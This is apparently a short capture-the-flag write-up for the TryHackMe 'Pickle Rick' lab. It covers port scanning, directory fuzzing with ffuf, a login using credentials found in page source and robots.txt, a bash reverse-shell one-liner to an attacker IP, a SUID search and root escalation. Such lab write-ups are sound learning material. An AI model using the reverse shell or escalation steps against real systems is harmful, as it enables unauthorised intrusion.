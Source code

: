 * * *
  ### PICKLERICK CTF
  Lab platform: THM
* * *

### Enumeration
-  Scanning with rust scan

         rustscan -a <ip>
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a583d8e-d4c3-4336-8adf-99555949d27c)

- Fuzz for directories and files with ffuf which reveals a login.php and robots.txt file

       ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/big.txt"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/871c3612-4d24-48aa-85dd-0f71d9bf64f8)

      ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt" -e .php,.txt,.html -mc 200
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a433b0a4-337a-4980-b65e-78e8b816b1ea)


- Viewing the source of the index page reveals a username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b6c9a89d-9eed-4c82-8e93-e8ef4be40a94)

- The robot.txt file reveals a weird word

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a634be9f-cbb6-45fd-9355-88500f0fbaa4)

- I logged in with the username and password <the weird word> which reveals a php page for shell commands execution

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/341db42e-b00e-4602-b9bb-1d0eee1c2484)

- Let's pop a bash rev shell from revshells.com "bash -c "bash -i >& /dev/tcp/10.18.31.164/9999 0>&1" and stablize the shell with pty py module

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0fa49651-b720-406a-9ff8-fd01d0218ef6)

### Escalating privileges 

- Look for files with suid bit with this command

       find / -perm -u=s -type f 2</dev/null

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/165012d2-7b95-4341-81d6-1f569183ca1a)

- After multiple trial and error,I discovered with gtfoins that I can escalate privileges with su

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b7d4942a-53d2-421d-be12-3c57a73b32c7)

- Root access achieved

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/124a90b0-e6c9-475e-91f1-9f2fce928d0a)

### Finding the potions

- The first ingredient is located in the "/var/ww/html" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0253ec42-8733-4dee-8d54-c21b4f5ed799)

- The second ingredient is located in RICK's home directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/54fe6041-5b56-4285-bf75-428782916b6b)

- The last ingredient is located in the root directory,challenge solved

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fec592d4-7327-4efa-b615-ca3d1a7fe77f)


   
  
-
